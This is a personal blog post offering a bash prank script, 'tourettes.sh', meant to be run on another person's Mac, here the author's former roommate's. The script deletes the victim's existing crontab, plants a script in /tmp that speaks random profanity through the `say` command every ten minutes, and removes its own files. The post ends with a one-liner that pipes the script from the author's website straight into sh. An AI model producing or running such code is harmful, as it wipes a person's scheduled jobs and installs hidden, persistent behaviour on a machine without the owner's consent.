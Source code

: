 ```yaml
---
layout: post
main: false
status: completed
category: tech
back: tech.html
title: tourettes.
quote: Ear muffs.
---
```


There is something so deliriously enticing about using the command `say` for devious purposes outside of its developed intentions **\[aiding the visually impaired?\]**. When I first discovered my darling Mac's capability, I believe I input `wanker` immediately; after all, what is more humourous than a bot spouting swears? I'll tell you what: a bot _uncontrollably_ spewing profanity in _ten_ minute intervals ...on a less apt technologist's Mac - say my former roommate's.

<div class="snippet">
   <pre class="terminal">
<div class="terminal-header">tourettes.sh</div>
#!/bin/bash

script=/tmp/tourettes.sh
cron=/tmp/cron

setup() {
  crontab -r
}

build_script_file() {
  echo 'swear() {' >> $1
  echo 'array=("shit", "fuck", "ass", "assbag", "asshole", "penis")' >> $1
  echo 'exec say ${array[$((RANDOM %= $((${#array[@]}))))]}' >> $1
  echo '}' >> $1
  echo 'swear' >> $1
  chmod a+x $1
}

build_crontab_file () {
  echo "*/$1 * * * * $2" >> $3
  crontab $3
}

cleanup() {
  rm $1
  dir=`pwd`
  download=$dir/tourettes.sh
  rm $download
}

# Remove the user's current cron.
setup

# Create a script in the tmp directory.
build_script_file "$script"

# Create a new crontab with script in tmp directory.
build_crontab_file "10" "$script" "$cron"

# Remove downloaded file and new cron file.
cleanup "$cron"
    </pre>
</div>

This [little diddy](http://en.wikipedia.org/wiki/Diddy_Kong) was meant to be more refined, but it turned out to be quite difficult to check if a user had a crontab enabled, grab the contents of the current crontab, edit them, then save - all without `sudo` access. So, I settled on _brute_ force. Run it. Enjoy it.

<div class="snippet">
   <pre class="terminal">
<div class="terminal-header"><i>terminal</i></div>
wget http://frank.lovecch.io/scripts/tourettes.sh -O - | sh
   </pre>
</div>